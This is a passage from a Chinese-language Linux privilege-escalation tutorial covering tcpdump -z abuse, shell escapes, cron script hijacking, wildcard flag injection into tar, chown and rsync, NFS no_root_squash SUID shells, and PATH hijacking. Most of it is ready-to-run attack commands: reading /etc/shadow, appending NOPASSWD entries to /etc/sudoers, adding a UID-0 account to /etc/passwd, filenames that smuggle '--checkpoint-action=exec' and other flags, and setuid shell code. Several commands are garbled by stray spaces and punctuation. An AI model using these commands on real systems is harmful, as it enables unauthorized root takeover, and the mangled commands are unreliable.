echo $’id\ncat /etc/shadow’ > /tmp/.testchmod +x /tmp/.testsudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

**python/perl/ruby/lua/php/etc**

**python**

python -c “import os;os.system(‘/bin/bash’)”

**perl**

exec “/bin/bash”;

## **0x007 linux提权—利用定时任务（Cron jobs）**

如果未正确配置Cronjob，则可以利用该Cronjob获得root特权。

\1. Cronjob中是否有可写的脚本或二进制文件？
2.我们可以覆盖cron文件本身吗？
\3. cron.d目录可写吗？

Cronjob通常以root特权运行。如果我们可以成功篡改cronjob中定义的任何脚本或二进制文件，那么我们可以以root特权执行任意代码。

## **什么是Cronjob？**

Cron Jobs被用于通过在服务器上的特定日期和时间执行命令来安排任务。它们最常用于sysadmin任务，如备份或清理/tmp/目录等。Cron这个词来自crontab，它存在于/etc目录中。

例如：在crontab内部，我们可以添加以下条目，以每1小时自动打印一次apache错误日志。

11 0 * * * printf “” > /var/log/apache/error_log

前五个数字值表示执行cronjob的时间。现在让我们了解五个数字值。

- 分钟–第一个值表示介于0到59之间的分钟范围，而*表示任何分钟。
- 小时–第二个值表示小时范围在0到24之间，*表示任何小时。
- 月中的某天–第三个值表示月中的某日，范围是1到31，*表示任何一天。
- 月–第四个值表示1到12之间的月份范围，*表示任何月份。
- 星期几–第五个值表示从星期天开始的星期几，介于0到6之间，*表示星期几。

**简而言之呢，**crontab**就是一个自定义定时器。**

## **Cron特权升级概述**

cron守护程序计划在指定的日期和时间运行命令。它与特定用户一起运行命令。因此，我们可以尝试滥用它来实现特权升级。

滥用cron的一个好方法是，

1.检查cron运行的脚本的文件权限。如果权限设置不正确，则攻击者可能会覆盖文件并轻松获取cron中设置的用户权限。

2.另一种方法是使用通配符技巧

**Cron\****信息收集**

一些基本命令收集一些线索，以使用错误配置的cron实现特权升级。

**命令结果**crontab -l显示当前用户的cronls -la /etc/cron*显示计划的作业概述

具有特权的运行脚本，其他用户可以编辑该脚本。

**查找特权用户拥有但可写的任何内容：**

crontab -lls -alh /var/spool/cronls -al /etc/ | grep cronls -al /etc/cron*cat /etc/cron*cat /etc/at.allowcat /etc/at.denycat /etc/cron.allowcat /etc/cron.denycat /etc/crontabcat /etc/anacrontabcat /var/spool/cron/crontabs/root

**查看其他用户的**crontab

$ crontab -u tstark -l0 0 / jarvis / reboot-arc-reactor

如果服务器上有很多用户，那么可以在cron日志中看到详细信息，可能包含用户名。

例如，在这里我可以看到运行数据库备份脚本的ubuntu用户：

8月5日4:05:01 dev01 CRON [2128]：（ubuntu）CMD（/var/cronitor/database-backup.sh）

**使用**pspy**工具（**32**位为**pspy32**，**64**位为**pspy64**）。**

下载链接：[https://github.com/DominicBreuker/pspy](https://link.zhihu.com/?target=https%3A//github.com/DominicBreuker/pspy)

**利用配置错误的**cronjob**获得**root**访问权限**

$ ls -la /etc/cron.d –输出cron.d中已经存在的cronjob

find / -perm -2 -type f 2> / dev / null –输出可写文件

ls -la /usr/local/sbin/cron-logrotate.sh –让我们确认cron-logrotate.sh是否可写。

## **我们知道cron-lograte.sh是可写的，它由logrotate cronjob运行。**

那么我们在cron-lograte.sh中编写/附加的任何命令都将以“ root”身份执行。

我们在/ tmp目录中编写一个C文件并进行编译。

rootme可执行文件将生成一个shell。

```text
$ ls -la rootme –它告诉我们它是由用户'SHayslett'拥有的
$ echo“ chown root：root / tmp / rootme; chmod u + s /tmp/rootme;”>/usr/local/sbin/cron-logrotate.sh –这将更改可执行文件的所有者和组为root。它还将设置SUID位。$ ls -la rootme – 5分钟后，运行了logrotate cronjob，并以root特权执行了cron-logrotate.sh。$ ./rootme –生成一个root shell。
```

## **Cron脚本覆盖和符号链接**

## **如果可以修改由root执行的cron脚本，则可以非常轻松地获取shell：**

echo ‘cp /bin/bash /tmp/bash; chmod +s /tmp/bash’ > #Wait until it is executed/tmp/bash -p＃等待执行

/ tmp / bash -p

如果root用户执行的脚本使用**具有完全访问权限**的**目录**，则删除该文件夹并**创建一个符号链接文件夹到另一个**服务于您控制的脚本的**文件夹**可能会很有用。

ln -d -s < / PATH / TO / POINT > < / PATH / CREATE / FOLDER >

## **定时任务**

可以监视进程以搜索每1,2或5分钟执行的进程。可以利用它并提升特权。

例如，要**在1分钟内每隔0.1s监视一次**，**按执行次数较少的命令排序**并删除一直执行的命令，可以执行以下操作：

for i in $(seq 1 610); do ps -e —format cmd >> /tmp/monprocs.tmp; sleep 0.1; done; sort /tmp/monprocs.tmp | uniq -c | grep -v “[“ | sed ‘/^.{200}./d’ | sort | grep -E -v “\s*[6-9][0-9][0-9]|\s*[0-9][0-9][0-9][0-9]”; rm /tmp/monprocs.tmp;

**总结**

由于Cron在执行时以root身份运行/etc/crontab，因此crontab调用的任何命令或脚本也将以root身份运行。当Cron执行的脚本可由非特权用户编辑时，那些非特权用户可以通过编辑此脚本并等待Cron以root特权执行该脚本来提升其特权！

例如，假设下面的行在中/etc/crontab。每天晚上9：30，Cron运行maintenance.shshell脚本。该脚本在root特权下运行。

30 21 * root /path/to/maintenance.sh

现在让我们说该maintenance.sh脚本还可以由所有人编辑，而不仅仅是root用户。在这种情况下，任何人都可以将命令添加到maintenance.sh，并使该命令由root用户执行！

这使得特权升级变得微不足道。例如，攻击者可以通过将自己添加为Sudoer来向自己授予超级用户特权。

echo “vickie ALL=(ALL) NOPASSWD:ALL” >> /etc/sudoers

或者，他们可以通过将新的root用户添加到“ / etc / passwd”文件来获得root访问权限。由于“ 0”是root用户的UID，因此添加UID为“ 0”的用户将为该用户提供root特权。该用户的用户名为“ vickie”，密码为空：

echo “vickie::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd

等等。

## **0x008 linux提权-通配符注入**

通配符是代表其他字符的符号。您可以将它们与任何命令（例如cat或rm命令）一起使用，以列出或删除符合给定条件的文件。还有其他一些，但是现在对我们很重要的一个是*字符，它可以匹配任意数量的字符。

例如：

- cat 显示当前目录中所有文件的内容
- rm 删除当前目录中的所有文件

它的工作原理是将*角色扩展到所有匹配的文件。如果我们有文件a，b并且c在当前目录中并运行rm* ，则结果为rm a b c。

## **原理**

众所周知，我们可以在命令行中将标志传递给程序以指示其应如何运行。例如，如果我们使用rm -rf而不是，rm那么它将递归并强制删除文件，而无需进一步提示。

现在，如果我们运行rm *并在当前目录中有一个名为name的文件，将会发生什么-rf？*的Shell扩展将导致命令变为，rm -rf a b c并且-rf将被解释为命令参数。

当特权用户或脚本在具有潜在危险标志的命令中使用通配符时，尤其是与外部命令执行相关的通配符，这是一个坏消息。在这些情况下，我们可能会使用它来升级特权。

## **chown和chmod**

chown和chmod都可以用相同的方式利用，因此我只看看chown。

Chown是一个程序，可让您更改指定文件的所有者。以下示例将some-file.txt的所有者更改为some-user：

chown some-user some-file.txt

Chown具有一个—reference=some-reference-file标志，该标志指定文件的所有者应与参考文件的所有者相同。一个例子应该有帮助：

chown some-user some-file.txt —reference=some-reference-file

假设的所有者some-reference-file是another-user。在这种情况下，所有者some-file.txt将another-user代替some-user。

## **利用**

假设我们有一个名为弱势程序的脆弱程序，其中包含以下内容：

cd some-directorychown root *

在这种情况下，让我们创建一个我们拥有的文件：

cd some-directory touch reference

然后我们创建一个文件，将注入标记：

touch — —reference=reference

如果在同一目录中创建到**/ etc / passwd**的符号链接，则**/ etc / passwd**的所有者也将是您，这将使您获得root shell。

## **其他**

## **TAR**

Tar是一个程序，可让您将文件收集到存档中。

在tar中，有“检查点”标志，这些标志使您可以在归档指定数量的文件后执行操作。由于我们可以使用通配符注入来注入那些标志，因此我们可以使用检查点来执行我们选择的命令。如果tar以root用户身份运行，则命令也将以root用户身份运行。

鉴于存在此漏洞，获得root用户特权的一种简单方法是使自己成为sudoer。sudoer是可以承担root特权的用户。这些用户在/etc/sudoers文件中指定。只需在该文件上追加一行，我们就可以使自己变得更轻松。

## **利用**

假设我们有一个易受攻击的程序，并且使用cron定期运行该程序。该程序包含以下内容：

cd important-directorytar cf /var/backups/backup.tar *

进行根访问的步骤如下：

**1**）注入一个标志来指定我们的检查点

首先，我们将指定在归档一个文件之后，有一个检查点。稍后我们将对该检查点执行操作，但是现在我们仅告诉tar它存在。

让我们创建一个将注入标记的文件：

cd important-directorytouch — —checkpoint=1

**2**）编写恶意的**Shell**脚本

Shell脚本将/etc/sudoers在其后追加代码，这会使您变得更加无礼。

您需要添加到的行/etc/sudoers是my-user ALL=(root) NOPASSWD: ALL。

让我们创建shell脚本：

echo ‘echo “my-user ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > demo.sh

Shell脚本应与通配符位于同一目录中。

请注意，我们将必须更改my-user为要成为sudoer的实际用户。

**3**）注入一个指定检查点动作的标志

现在，我们将指定，当tar到达在步骤＃1中指定的检查点时，它应运行在步骤＃2中创建的shell脚本：

touch — “—checkpoint-action=exec=sh demo.sh”

**4**）**root**

等待，直到cron执行了脚本并通过键入以下内容获得root特权：

sudo su

## **rsync**

Rsync是“快速，通用，远程（和本地）文件复制工具”，在linux系统上非常常见。

与rsync一起使用的一些有趣的标志是：

-e, —rsh=COMMAND specify the remote shell to use —rsync-path=PROGRAM specify the rsync to run on remote machine

我们可以使用该-e标志来运行所需的任何Shell脚本。让我们创建一个shell脚本，它将我们添加到sudoers文件中：

echo ‘echo “my-user ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > shell.sh

现在让我们注入将运行我们的shell脚本的标志：

touch — “-e sh shell.sh”

## **0x009 Linux提权-NFS权限弱**

如果您在linu服务器上具有低特权shell，并且发现服务器中具有NFS共享，则可以使用它来升级特权。但是成功取决于它的配置方式。

## **目录**

1. 1. 什么是NFS？
   2. 什么是root_sqaush和no_root_sqaush？
   3. 所需的工具和程序文件。
   4. 利用NFS弱权限。

## **什么是NFS？**

网络文件系统（**NFS**）是一个客户端/服务器应用程序，它使计算机用户可以查看和选择存储和更新远程计算机上的文件，就像它们位于用户自己的计算机上一样。在**NFS**协议是几个分布式文件系统标准，网络附加存储（NAS）之一。

NFS是基于UDP/IP协议的应用，其实现主要是采用远程过程调用RPC机制，RPC提供了一组与机器、操作系统以及低层传送协议无关的存取远程文件的操作。RPC采用了XDR的支持。XDR是一种与机器无关的数据描述编码的协议，他以独立与任意机器体系结构的格式对网上传送的数据进行编码和解码，支持在异构系统之间数据的传送。

## **什么是root_sqaush和no_root_sqaush？**

Root Squashing（root_sqaush）参数阻止对连接到NFS卷的远程root用户具有root访问权限。远程根用户在连接时会分配一个用户“ **nfsnobody**”，它具有最少的本地特权。如果no_root_squash选项开启的话”，并为远程用户授予root用户对所连接系统的访问权限。在配置NFS驱动器时，系统管理员应始终使用“ root_squash”参数。

注意：**要利用此，\****no_**root_squash**选项得开启***\*。**

## **利用NFS并获取Root Shell**

现在，我们拿到了一个低权限的shell，我们查看“ / etc / exports ”文件。

**/ etc / exports**文件包含将哪些文件夹/文件系统导出到远程用户的配置和权限。

这个文件的内容非常简单，每一行由抛出路径，客户名列表以及每个客户名后紧跟的访问选项构成：[共享的目录] [主机名或IP(参数,参数)]其中参数是可选的，当不指定参数时，nfs将使用默认选项。默认的共享选项是 sync,ro,root_squash,no_delay。当主机名或IP地址为空时，则代表共享给任意客户机提供服务。当将同一目录共享给多个客户机，但对每个客户机提供的权限不同时，可以这样：[共享的目录] [主机名1或IP1(参数1,参数2)] [主机名2或IP2(参数3,参数4)]


我们可以看到**/ tmp** 文件夹是可共享的，远程用户可以挂载它。还有不安全的参数“ rw ”（读，写），“ sync ”和“ **no_root_squash**”

同样我们也可以使用 showmount命令来查看。

showmount命令用于查询NFS服务器的相关信息

## **showmount —help**

Usage: showmount [-adehv]

[—all] [—directories] [—exports]

[—no-headers] [—help] [—version] [host] -a或—all

以 host:dir 这样的格式来显示客户主机名和挂载点目录。

> -d或—directories 仅显示被客户挂载的目录名。
> -e或—exports 显示NFS服务器的输出清单。
> -h或—help 显示帮助信息。
> -v或—version 显示版本信。
> —no-headers 禁止输出描述头部信息。显示NFS客户端信息 #

showmount 显示指定NFS服务器连接NFS客户端的信息

```text
# showmount 192.168.1.1  #此ip为nfs服务器的 显示输出目录列表
# showmount -e 显示指定NFS服务器输出目录列表（也称为共享目录列表）
# showmount -e 192.168.1.1 显示被挂载的共享目录
# showmount -d   显示客户端信息和共享目录
# showmount -a 显示指定NFS服务器的客户端信息和共享目录
# showmount -a 192.168.1.1
```

这里不多说了

我们接下来在我们的攻击机上安装客户端工具

需要执行以下命令，安装nfs-common软件包。apt会自动安装nfs-common、rpcbind等12个软件包

sudo apt install nfs-commonapt-get install cifs-utils

**然后输入命令**

showmount -e [IP地址]


**创建目录以挂载远程系统。**

mkdir / tmp / test

**在\****/tmp/test**上装载**Remote/tmp***\*文件夹：**

mount -o rw，vers = 2 [IP地址]：/ tmp / tmp / test


**然后在/tmp/test/中。新建一个c文件。**

```text
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h> int main() { setuid(0); system("/bin/bash"); return 0; }
```

**也可以**

echo ‘int main() { setgid(0); setuid(0); system(“/bin/bash”); return 0; }’ > /tmp/test/suid-shell.c

**编译：**

gcc /tmp/test/suid-shell.c -o / tmp / 1 / suid-shel

**赋权：**

chmod + s /tmp/test/suid-shell.c

**好的，我们回到要提权的服务器上**





cd / tmp./suid-shell

**可以看到是ROOT权限了**

## **0x0010 linux提权-利用“.”路径配置错误**

有“.” 在PATH中表示用户可以从当前目录执行二进制文件/脚本。但是一些管理员为了避免每次都必须输入这两个额外的字符，他们在用户中添加“。”在他们的PATH中。对于攻击者而言，这是提升其特权的绝佳方法。

放置.路径

如果在PATH中放置点，则无需编写./binary即可执行它。那么我们将能够执行当前目录中的任何脚本或二进制文件。

假设小明是管理员，而她添加了“。” 在她的PATH上，这样她就不必再输入两个字符了去执行脚本或二进制文件。

带“。” 在路径中–program

不带“。” 在路径中-./program

发生这种情况是因为Linux首先在“.”位置搜索程序。但是添加到PATH的开头后，就在其他任何地方搜索。

> 另一个用户“小白”知道小明添加了“.” 在PATH中，
> 小白告诉小明’ls’命令在他的目录中不起作用
> 小白在他的目录中添加代码，这将更改sudoers文件并使他成为管理员
> 小白将该代码存储在名为“ ls”并使其可执行
> 小明具有root特权。她来了，并在小白的主目录中执行了’ls’命令
> 恶意代码不是通过原始的’ls’命令而是通过root访问来执行
> 在另存为“ ls”的文件中，添加了一个代码，该代码将打印“ Hello world”

$ PATH = .：$ {PATH} –添加’.’ 在PATH变量中





$ ls –执行的./ls文件，而不是运行列表命令。

> 现在，如果root用户以root特权执行代码，我们可以使用root特权实现任意代码执行。


